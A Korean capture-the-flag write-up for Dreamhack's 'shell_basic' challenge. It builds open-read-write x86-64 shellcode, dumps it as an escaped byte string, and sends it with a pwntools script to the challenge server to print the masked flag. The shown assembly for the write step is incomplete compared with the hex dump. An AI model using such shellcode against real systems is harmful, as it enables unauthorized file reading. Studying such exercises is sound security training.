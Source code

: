 # shell_basic (410)


## 문제

https://dreamhack.io/wargame/challenges/410

## 풀이

1. assembly 코드 작성

orw를 사용해서 flag 파일을 읽어야 한다.

주어진 파일 경로 (/home/shell_basic/flag_name_is_loooooong)를 hex로 변환한 후, little endian 형식으로 바꿔주면 아래와 같은 형태가 된다.

```
0x676e6f6f6f6f6f6f
0x6c5f73695f656d61
0x6e5f67616c662f63
0x697361625f6c6c65
0x68732f656d6f682f
```

이를 데이터를 stack에 쌓아준다. (문자열의 끝을 나타내기 위해 처음에 0x00을 넣어준다)

```
section .text
global _start
_start:
  push 0x00
  mov rax, 0x676e6f6f6f6f6f6f
  push rax
  mov rax, 0x6c5f73695f656d61
  push rax
  mov rax, 0x6e5f67616c662f63
  push rax
  mov rax, 0x697361625f6c6c65
  push rax
  mov rax, 0x68732f656d6f682f
  push rax
  ```

  | syscall | rax | arg0 (rdi) | arg1 (rsi) | arg2 (rdx) |
| --- | --- | --- | --- | --- |
| read | 0x00 | unsigned int fd | char *buf | size_t count |
| write | 0x01 | unsigned int fd | const char *buf | size_t count |
| open | 0x02 | const char *filename | int flags | umode_t mode |

- open

```
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x02
syscall
```

rax : 0x02, rdi : stack pointer, rsi : 0 (O_RDONLY), rdx : 파일을 읽을 때, 의미를 갖지 않으므로 0

- read : open한 파일의 내용을 읽는 부분이다.
```
mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0
syscall
  ```
rax : 0, rdi : file descriptor (open의 결과값), rsi : stack pointer에 읽은 내용을 저장하기 위해 48바이트를 할당 (sub), rdx : 읽은 데이터의 길이

- write : 읽은 내용을 출력한다.
```
mov rdi, 1
mov rax, 0x1
```
rax : 0x1, rdi : 1 == file descriptor (STDOUT)

2. 컴파일

- assembly code를 elf형태로 변환 (shell_basic.o 파일 생성)
```
nasm -f elf64 shell_basic.asm
```

- bin파일 생성
```
objcopy --dump-section .text=shell_basic.bin shell_basic.o
```
- xxd로 내용 확인
```
xxd shell_basic.bin 

00000000: 6a00 48b8 6f6f 6f6f 6f6f 6e67 5048 b861  j.H.oooooongPH.a
00000010: 6d65 5f69 735f 6c50 48b8 632f 666c 6167  me_is_lPH.c/flag
00000020: 5f6e 5048 b865 6c6c 5f62 6173 6950 48b8  _nPH.ell_basiPH.
00000030: 2f68 6f6d 652f 7368 5048 89e7 4831 f648  /home/shPH..H1.H
00000040: 31d2 b802 0000 000f 0548 89c7 4889 e648  1........H..H..H
00000050: 83ee 30ba 3000 0000 b800 0000 000f 05bf  ..0.0...........
00000060: 0100 0000 b801 0000 000f 0548 31ff b83c  ...........H1..<
00000070: 0000 000f 05                             .....
```
- \xaa\xaa 형태로 보기 위해 awk를 사용 (추가 확인 필요)
```
xxd -p shell_basic.bin | fold -w2 | awk '{print "\\x" $0}' | tr -d '\n'
```
- 결과
```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05
```

3. 데이터 전송

데이터 전송을 위해 pwntools를 사용해 파이썬 코드를 작성한다. (추가 확인 필요)

```
from pwn import *

p = remote("host3.dreamhack.games", 10929)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05"
p.sendafter(b": ", shellcode)
p.interactive()
```

- 결과
```
python3 send.py 
[+] Opening connection to host3.dreamhack.games on port 10929: Done
[*] Switching to interactive mode
DH{#################}
\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```